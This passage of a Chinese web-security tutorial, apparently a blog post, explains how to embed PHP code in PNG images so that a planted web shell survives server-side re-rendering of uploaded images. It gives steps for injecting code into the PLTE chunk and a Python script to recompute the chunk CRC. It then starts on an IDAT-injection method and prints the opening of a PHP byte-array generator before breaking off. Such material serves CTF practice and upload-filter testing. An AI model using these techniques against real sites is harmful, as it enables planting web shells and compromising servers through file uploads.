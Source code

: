 00 00 00 00 49 45 4E 44 AE 42 60 82

**写入php代码**

在网上找到了两种方式来制作绕过二次渲染的png木马.

##### **写入PLTE数据块**

php底层在对PLTE数据块验证的时候,主要进行了CRC校验.所以可以再chunk data域插入php代码,然后重新计算相应的crc值并修改即可.

这种方式只针对索引彩色图像的png图片才有效,在选取png图片时可根据IHDR数据块的color type辨别.`03`为索引彩色图像.

* 在PLTE数据块写入php代码.

![U3rH1g.png](https://s1.ax1x.com/2020/07/12/U3rH1g.png)

* 计算PLTE数据块的CRC

CRC脚本:

	import binascii
	import re

	png = open(r'2.png','rb')
	a = png.read()
	png.close()
	hexstr = binascii.b2a_hex(a)

	''' PLTE crc '''
	data =  '504c5445'+ re.findall('504c5445(.*?)49444154',hexstr)[0]
	crc = binascii.crc32(data[:-16].decode('hex')) & 0xffffffff
	print hex(crc)

运行结果：

526579b0

* 修改CRC值

![U3rxA0.png](https://s1.ax1x.com/2020/07/12/U3rxA0.png)

* 验证

将修改后的png图片上传后,下载到本地打开

![U3sC3F.png](https://s1.ax1x.com/2020/07/12/U3sC3F.png)

##### **写入IDAT数据块**

这里有国外大牛写的脚本,直接拿来运行即可.

	<?php
	$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);
